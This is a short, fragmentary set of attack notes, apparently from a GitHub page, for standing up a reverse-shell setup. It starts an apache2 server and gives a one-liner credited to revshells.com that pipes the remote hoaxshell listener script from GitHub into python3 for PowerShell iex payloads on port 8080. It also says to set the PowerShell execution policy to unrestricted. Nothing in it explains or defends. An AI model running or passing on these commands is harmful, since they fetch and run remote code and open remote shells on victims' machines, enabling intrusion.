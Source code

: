 sudo systemctl start apache2 \#start the apache2 server

  

Code from revshells.com

`python3 -c "$(curl -s https://raw.githubusercontent.com/t3l3machus/hoaxshell/main/revshells/hoaxshell-listener.py)" -t ps-iex -p 8080`

  

  

set execution policy unrestricted